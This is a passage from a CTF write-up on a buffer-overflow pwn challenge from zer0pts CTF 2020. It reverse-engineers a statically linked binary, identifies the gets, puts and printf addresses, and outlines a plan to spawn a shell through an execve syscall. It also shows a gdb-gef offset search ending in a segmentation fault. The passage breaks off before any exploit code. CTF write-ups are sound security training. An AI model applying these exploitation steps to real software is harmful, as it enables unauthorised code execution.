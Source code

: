 If it was **dynamically linked** binary we could have done something like leak any GOT address and then calculate the offsets to do something like `system("/bin/sh")`. But since it is **statically linked** it is pointless approach, we gotta use stuffs which are available in binary itself.

# Reverse Engineering the Binary

Time to reverse enginneer the binary so that we could get the address of some useful functions. Let's check out the main function:-

```C
__int64 sub_400160()
{
  __int64 v1; // [rsp+0h] [rbp-108h]

  sub_40062F("What's your team name?");
  sub_4004EE(&v1);
  sub_400591((unsigned __int64)"Hi, %s. Welcome to zer0pts CTF 2020!\n");
  return 0LL;
}
```

There we go, from source code we know the following things:-

* `puts("What's your team name?")` : `sub_40062F("What's your team name?")`
* `gets(name)` : `sub_4004EE(&v1)`
* `printf("Hi, %s. Welcome to zer0pts CTF 2020!\n", name)`  :`sub_400591((unsigned __int64)"Hi, %s. Welcome to zer0pts CTF 2020!\n")`



So, now we know that `0x4004EE` is the address of the `gets` and `0x40062F` is the address of `puts` and `0x400591` is the address of the `printf`, let's keep this thing in mind and time to pwn it.


# Pwning Time

So, my initial step was to use any address from `bss` to store thw address of `/bin/sh` and after that make a `exceve` syscall to spawn a shell. I used `pwntools` to automate most of the parts like getting the `bss` address and incrementing it by `0x200` offsets so that the initial address wom't be overwritten as `bss` loads IO related informations. Let's get it done:-

##### Finding offsets

Finding the offset with `gdb-gef`'s `de-brujin` based `pattern search`:-

```asm
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
[+] Saved as '$_gef1'
gef➤  r
Starting program: /home/robin/CTFs/chall 
What's your team name?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
Hi, aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa. Welcome to zer0pts CTF 2020!

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]
```